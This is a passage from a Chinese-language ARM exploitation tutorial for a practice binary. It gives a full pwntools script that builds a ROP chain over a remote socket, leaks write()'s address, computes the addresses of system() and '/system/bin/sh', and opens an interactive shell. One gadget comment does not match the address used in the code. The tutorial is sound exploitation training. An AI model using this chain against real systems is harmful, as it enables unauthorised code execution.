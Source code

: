 另外需要注意的是write()函数是三个参数，因此我们还需要控制r1和r2才行，刚好程序中有如下gadget可以满足我们的需求：

```
#0x0000863a : pop {r1, r2, r4, r5, r6, pc}

```

另外为了能再一次返回`vulnerable_function()`，我们需要构造好执行完write函数后的栈的数据，让程序执行完`ADD SP, SP`,`#0x84`;`POP {PC}`后，PC能再一次指向`0x000084D8`。

![p8](http://drops.javaweb.org/uploads/images/6ed671265eaa4af84ecbd0dce79b65cdee499603.jpg)

最终的explevel9.py如下：

```
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x00008a12 : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x000088be + 1

#0x0000863a : pop {r1, r2, r4, r5, r6, pc}
gadget2 = 0x0000863a + 1

#.text:000084D8 vulnerable_function
ret_to_vul = 0x000084D8 + 1

#write(r0=1, r1=0x0000AFE8, r2=4)
r0 = 1
r1 = 0x0000AFE8
r2 = 4
r4 = 0
r5 = 0
r6 = 0
write_addr_plt = 0x000083C8

payload =  '\x00'*132 + p32(gadget1) + '\x00'*0xc + p32(r0) + '\x00'*0x4 + p32(gadget2) + p32(r1) + p32(r2) + p32(r4) + p32(r5) + p32(r6) + p32(write_addr_plt) + '\x00' * 0x84 + p32(ret_to_vul)

p.send(payload)

write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
#.text:000253A4                 EXPORT system
#.text:00020280                 EXPORT write

r0 = write_addr + (0x0003F9B4 - 0x00020280)
system_addr = write_addr + (0x000253A4 - 0x00020280) + 1

print 'r0=' + hex(r0)
print 'system_addr=' + hex(system_addr)

payload2 =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(system_addr)

p.send(payload2)

p.interactive()

```